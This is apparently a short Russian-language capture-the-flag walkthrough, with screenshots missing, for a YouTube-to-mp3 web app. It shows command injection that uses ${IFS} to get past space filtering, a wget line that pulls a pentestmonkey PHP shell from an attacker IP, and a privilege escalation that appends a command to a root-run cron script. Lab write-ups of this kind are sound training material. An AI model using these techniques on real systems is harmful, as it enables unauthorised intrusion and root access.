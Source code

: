 
Находим веб-приложение которое принимает ссылку на видео youtube и конвертирует его в mp3
![](../attachment/Pasted%20image%2020251007165342.png)

Проверим возможность выполнения команд

![](../attachment/Pasted%20image%2020251007172343.png)

Прочитаем флаг. В качестве пробела используем оболочку ${IFS} 

![](../attachment/Pasted%20image%2020251007165753.png)

С помощью wget${IFS}http://IP/shell.php передадим php pentestmonkey shell и получим доступ к системе перейдя на страницу shell.php

![](../attachment/Pasted%20image%2020251007172941.png)
Изучив систему находим файл /var/www/html/tmp/clean.sh который выполняется каждую минуту от root
Добавим в него строку чтобы записать флаг рута в /var/www/html/tmp/rootflag.txt

```
cat /root/root.txt > rootflag.txt
```